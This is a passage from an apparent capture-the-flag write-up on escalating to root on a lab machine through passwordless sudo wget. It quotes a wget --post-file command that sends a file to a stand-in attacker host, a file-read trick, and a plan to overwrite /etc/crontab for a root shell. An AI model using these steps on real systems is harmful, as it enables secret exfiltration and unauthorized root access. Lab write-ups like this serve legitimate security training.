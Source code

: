 The user flag is at `/home/jessie/Documents/user_flag.txt`.


## 3: Privesc - wget, crontab, root shell

We've already seen with `id` that the jessie user is a member of the sudo group, and running `sudo -l` shows that they can run `wget` as sudo without a password :

```console
jessie@CorpOne:~$ sudo -l
Matching Defaults entries for jessie on CorpOne:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User jessie may run the following commands on CorpOne:
    (ALL : ALL) ALL
    (root) NOPASSWD: /usr/bin/wget
```

Assuming that we already know the path of the target file, `wget` offers a number of options for file read and file upload. With `sudo` access, we can therefore read and extract any file on the system. [GTFObins gives the following two examples](https://gtfobins.github.io/gtfobins/wget/) of file upload and file read actions with `wget` :

File upload via a POST request of a known file : 

```console
URL=http://attacker.com/
LFILE=file_to_send
wget --post-file=$LFILE $URL
```

File read as URL input (`-i` flag), with each line printed to the console as an error as name resolution fails for the content of the line:

```console
LFILE=file_to_read
wget -i $LFILE
```

This is good enough to get the root flag (assuming we know that the root flag is at /root/root_flag.txt - which it is). But we can also use `wget`'s file write feature to provide a root shell by overwriting `/etc/crontab`. For this to work, we first need to check that `cron` is running on the target machine :

```console
jessie@CorpOne:~/Documents$ systemctl status cron
● cron.service - Regular background program processing daemon
   Loaded: loaded (/lib/systemd/system/cron.service; enabled; vendor preset: enabl
   Active: active (running) since Ma 2021-09-07 04:55:46 EEST; 29min ago
     Docs: man:cron(8)
    ..snip...
```

Perfect. The plan is to create a copy of the existing `/etc/crontab` file that adds a new job that is run as root. We can then host this copy on the attack machine, download it to the target machine with `wget` as sudo, and overwrite the existing `/etc/crontab` file (the new job will be applied automatically without requiring a restart of the `cron` service).

